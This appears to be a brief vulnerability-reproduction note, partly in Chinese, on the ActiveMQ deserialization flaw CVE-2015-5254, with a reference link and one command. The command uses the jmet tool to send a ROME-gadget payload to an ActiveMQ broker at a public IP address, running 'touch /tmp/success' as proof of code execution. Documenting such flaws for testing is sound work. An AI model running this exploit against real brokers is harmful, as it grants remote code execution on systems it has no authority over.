# ActiveMQ Deserialization Vulnerability (CVE-2015-5254)

参考连接, 或者, 直接看 **README.md** 文件.

https://joker-vip.github.io/2021/04/15/ActiveMQ%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2015-5254%EF%BC%89/

```
java -jar /root/Desktop/Tools/jmet/jmet-0.1.0/jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME 49.233.58.224 61616
```

